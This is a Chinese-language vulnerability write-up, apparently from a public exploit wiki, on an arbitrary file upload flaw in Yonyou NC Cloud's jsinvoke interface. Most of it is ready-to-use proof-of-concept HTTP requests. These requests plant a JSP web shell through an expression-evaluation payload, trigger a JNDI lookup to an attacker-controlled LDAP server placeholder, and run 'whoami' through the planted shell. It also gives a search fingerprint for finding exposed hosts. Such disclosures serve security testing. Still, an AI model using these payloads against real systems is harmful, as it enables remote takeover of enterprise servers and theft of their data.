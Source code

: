 # 用友 NC Cloud jsinvoke 任意文件上传漏洞

## 漏洞描述

用友 NC Cloud jsinvoke 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件至服务器中，获取系统权限

## 漏洞影响

<a-checkbox checked>用友 NC Cloud</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="用友-NC-Cloud"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1677729078033-1536313c-bfb8-4134-ac84-ddad2b011207-20230809133642723.png)

验证POC

```plain
POST /uapjs/jsinvoke/?action=invoke
Content-Type: application/json

{
    "serviceName":"nc.itf.iufo.IBaseSPService",
    "methodName":"saveXStreamConfig",
    "parameterTypes":[
        "java.lang.Object",
        "java.lang.String"
    ], 
    "parameters":[
        "${param.getClass().forName(param.error).newInstance().eval(param.cmd)}",
        "webapps/nc_web/407.jsp"
    ]
}
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: 
Connection: Keep-Alive
Content-Length: 253
Content-Type: application/x-www-form-urlencoded


{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${''.getClass().forName('javax.naming.InitialContext').newInstance().lookup('ldap://VPSip:1389/TomcatBypass/TomcatEcho')}","webapps/nc_web/301.jsp"]}
```

![img](/assets/PeiQi-Wiki/img/1677729129558-fd90f34f-9bb9-44ce-b779-e7c17578b4a0.png)

```plain
/cmdtest.jsp?error=bsh.Interpreter&cmd=org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec(%22whoami%22).getInputStream()) 
```

![img](/assets/PeiQi-Wiki/img/1677729209203-afb4acf2-bd48-44fb-af97-aa70c9bcbc2a.png)